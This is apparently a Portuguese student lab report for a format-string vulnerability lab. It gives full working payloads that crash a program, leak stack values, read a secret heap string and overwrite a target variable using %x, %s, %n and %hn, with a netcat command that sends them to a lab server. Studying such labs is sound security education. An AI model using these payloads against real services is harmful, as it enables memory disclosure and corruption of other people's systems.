




# Trabalho realizado na semana 6


A imagem das tasks 2A e 2B é a mesma porque imprimo a target ((0x)11223344) e a mensagem ("A secret message") com a mesma badfile.





## Task 1 - Crashar o programa
Isto pode ser feito colocando pelo menos um %s (ou %n), pois o programa vai procurar para ler ou escrever o local na memória cujo endereço é o valor a seguir ao último argumento da função print.

## Task 2A - Imprimir valores da stack.

Ficheiro de Payload/Badfile:
```
"%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x"
```
Nota: A imagem deste ex é a mesma do 2B, pois no 2B também se imprime valores da stack, como a target.

%x imprime, em hexadecimal, valores da stack acima da format string (pois tem símbolos de format (por exemplo %x) a mais). O primeiro valor acima parece ser a "target variable", pois tem sempre o valor (0x)11223344.
Para chegar ao conteúdo da nossa mensagem (assumo que seja o argumento msg da função myprintf), foi preciso usar 64 "%x", ou seja, o primeiro carater da mensagem estava 64 * 4 = 256 bytes depois do último "argumento" (eg: "%s") da função print.


## Task 2B - Imprimir mensagem secreta (na heap).

Ficheiro de Payload/Badfile:
```
"@%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%s"
```
O número de %x depende das posições de memória dos argumentos do print e da mensagem na chamada à função. No nosso caso, como era 64, usamos 63 "%x".
Os primeiros 4 carateres são o local de memória da mensagem secreta.
O último %s serve para imprimir uma string do local escrito no início da nossa string, ou seja, imprimir a mensagem super secreta.


Bónus:
## Task 3A - Alterar valor da target para um valor qualquer:

Ficheiro de Payload/Badfile:
```
"hP%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%n"
```
%n escreve o número de carateres escrito pelo printf até agora no local de memória pretendido.
Sendo assim, substituimos o endereço de memória da task 2C pela target e substituimos o %s por %n.


## Task 3B - Alterar valor da target para 0x5000:

Ficheiro de Payload/Badfile:
```
"hP%20244d%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%n"
```
Utilizando o argumento width dos argumentos do printf, podemos definir a length mínima da string que queremos imprimir.
Sendo assim, calculamos o quanto seria preciso até ficar 0x5000, ficando 20244.
Este valor imprimido conta como um inteiro, sendo assim, tiramos um %x para compensar o carater extra imprimido.

## Task 3C - Alterar valor da target para 0xAABBCCDD (valor demasiado elevado para estar a imprimir esse número de carateres no ecrã)

Ficheiro de Payload/Badfile:
```
"jPaaaahP%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%.43456d %hn %.8737x%hn"
```
Sendo msg a posição de memória da mensagem na function call myprintf do programa:
msg -> endereço de memória da target + 2
msg + 4 -> filler
msg + 8 -> endereço de memória da target

%hn em vez de %n foi usado para escrever só 2 bytes de cada vez em vez de 4, por isso, tivemos de escrever na target + 2 e depois na target.
Como o número de carateres só pode aumentar e não diminuir, primeiro tivemos de escrever o AABB e depois o CCDD

Ps: No preenchimento de carateres, usamos o argumento de precision, pois é mais ideal do que o que usamos para a task 3B.


Observações:
Quando se corre o programa, concatenando a file usando 'cat badfile | nc 10.9.0.5 9090', se a file fosse menor que o 1500 (o tamanho do buffer), precisavamos de pressionar ctrl c. Se fosse pelo menos 1500, considerava os primeiros 1500 e não era preciso pressionar ctrl c.